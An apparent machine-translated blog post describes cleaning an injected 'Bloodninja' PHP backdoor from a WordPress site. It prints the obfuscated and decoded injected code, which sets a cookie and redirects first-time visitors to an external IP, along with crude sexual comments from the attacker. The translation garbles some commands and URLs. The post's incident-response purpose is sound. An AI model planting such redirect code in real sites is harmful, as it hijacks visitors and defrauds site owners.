


# 从 Wordpress 网站清除 Bloodninja PHP 攻击

> 原文：<https://infosecwriteups.com/cleaning-bloodninja-php-attack-from-website-7703513bd133?source=collection_archive---------0----------------------->

给个背景，我们的网站最近被攻击者攻击赚钱了。好吧，这篇文章对于安全领域的专业人士来说可能非常简单，因为这是我第一次只用逻辑来清理黑客。

好了，攻击是如何工作的，在新计算机的第一次访问中，它会将 302 服务器端重定向到一个恶意的 IP 地址(http:// 134.249。116.78/index.php)。但第二次访问时没有出现这种情况，网站正常打开。这显然意味着恶意代码正在跟踪过去的访问。所以我首先想到的是饼干。



图片来源:solutionsreview.com

我将我们公司的网址列入黑名单，禁止在我的浏览器上存储 cookies。由于没有 cookies，每次访问都被重定向到恶意 IP 地址。有了明确的操作方式，我启用了公司域的 cookie，发现一个名为“htp_uid_utm”的 cookie 在 117 小时或 4 天 21 小时后过期。这意味着我们的用户在 4 天 21 小时后的第一次访问和任何重复访问都为攻击者赚了钱。



在 Firefox 浏览器中阻止 cookies

不管怎样，我现在的目标是 cookie 'htp_uid_utm '。所以我从我们的服务器上下载了所有文件，并在 linux 终端上运行了一个 grep

**grep -rnw。-e "htp_uid_utm" | less**

还有惊喜！它没有返回任何结果。这可能意味着攻击者混淆了代码。快速在线搜索发现对混淆代码使用了“base64_decode()”。很自然地引出了我的下一个 grep 命令。

**grep -rnw。-e "base64_decode(" | less**

这揭示了大量运行恶意代码的文件。

Mobilefish [的一个网站 https://www . mobile fish . com/services/eval _ gzinflate _ base64/eval _ gzinflate _ base64 . PHP](https://www.mobilefish.com/services/eval_gzinflate_base64/eval_gzinflate_base64.php)帮助解读代码:

```
if(!empty/*Bloodninja: I lick your earlobe, and undo your watch.*/($_SERVER[“HTTP_USER_AGENT”])):$_™šÃƱÄÄ=array(“Chro\155e”,”\x46\151refo\x78",”Trident”,”MSIE”,”W\151ndows”,”\x4cinux”,”Ip\150on\x65",”Android”,”Opera”,”Safari”);foreach($_™šÃƱÄÄ as$_Œß…”…):if(sTRipos($_SERVER[“HTTP_\x55SER_AGENT”],$_Œß…”…)!==/*Sarah19fca: mmmm, okay.*/false/*Bloodninja: I take yo pants off, grunting like a troll.*/):if(!isset($_COOKIE[“\x68tp_uid_ut\x6d”])):sETcOOKIe(“htp_ui\x64_u\164m”,”1",TiME()+07020/*Sarah19fca: Yeah I like it rough.*/*030/*Bloodninja: I smack you thick booty.*/*02);HeadEr(“Location: [http://134.\x3249.116.78/ind\x65x.php](http://134.\x3249.116.78/ind\x65x.php)");die/*Sarah19fca: Oh yeah, that feels good.*/();endif;endif;endforeach;endif;;/*Bloodninja: Smack, Smack, yeeeaahhh.*/
```

于是就出现了 COOKIE check
*isset($ _ COOKIE[" \ x68tp _ uid _ ut \ x6d "])*
和恶意重定向
*HeadEr(" Location:*[*http://134。\ x 3249 . 116 . 78/ind \ x65x . PHP*](http://134.\x3249.116.78/ind\x65x.php)*)；*

此外，攻击者将这次袭击命名为“血忍者”。

只是为了确认，在运行解码器后，输出是

```
if(!empty($_SERVER[“HTTP_USER_AGENT”])):$_Ʊ=array(“Chrome”,”Firefox”,”Trident”,”MSIE”,”Windows”,”Linux”,”Iphone”,”Android”,”Opera”,”Safari”);foreach($_Ʊ as$_߅):if(sTRipos($_SERVER[“HTTP_USER_AGENT”],$_߅)!==false):if(!isset($_COOKIE[“htp_uid_utm”])):sETcOOKIe(“htp_uid_utm”,”1",TiME()+07020*030*02);HeadEr(“Location: http:// 134.249\. 116.78/index.php”);die();endif;endif;endforeach;endif;;
```

有了这个认识，接下来我从 grep 列出的所有文件中删除了这个恶意代码。这些文件中的一些有“wp_”前缀，但是在 https://github.com/WordPress/WordPress 托管的 WordPress 代码中没有。我只是把这些文件的 Linux 权限从 644 改成了 000，这样如果再次发生攻击，他们就无法创建这些现有的无法访问的文件了。

就这样，我们的网站像以前一样运行了。

这是给攻击者的，就像在他混乱的代码中的注释一样，“啪，啪，耶啊啊。”

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)